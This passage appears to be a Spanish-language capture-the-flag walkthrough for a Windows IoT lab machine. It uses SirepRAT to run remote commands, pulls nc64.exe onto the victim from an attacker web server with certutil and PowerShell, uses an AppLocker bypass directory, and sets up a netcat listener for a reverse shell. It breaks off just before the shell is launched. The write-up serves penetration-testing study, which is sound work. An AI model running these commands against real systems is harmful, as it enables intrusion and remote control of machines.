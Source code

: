```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.8" --v
```

Aqui vemos que recibimos la traza y que tenemos capacidad de ejecucion remota de comando.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con SirepRAT {-}

1. Descargamos nc64

    ```bash
    wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
    ```

1. Creamos un servidor web con python

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos descargar el binario desde la maquina victima

    ```bash
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\Windows\Temp\nc64.exe" --v
    ```

Aqui vemos que no a pasado nada y que no hemos recibido ningun GET a nuestro servidor python.

Miramos si funcciona usando un directorio [applocker](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe" --v
```

No funcciona. Intentamos con Powershell

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell" --args " /c iwr -uri http://10.10.14.8/nc64.exe -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe" --v
```

Ahora si. Intentamos entablarnos una reverseshell.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos la shell
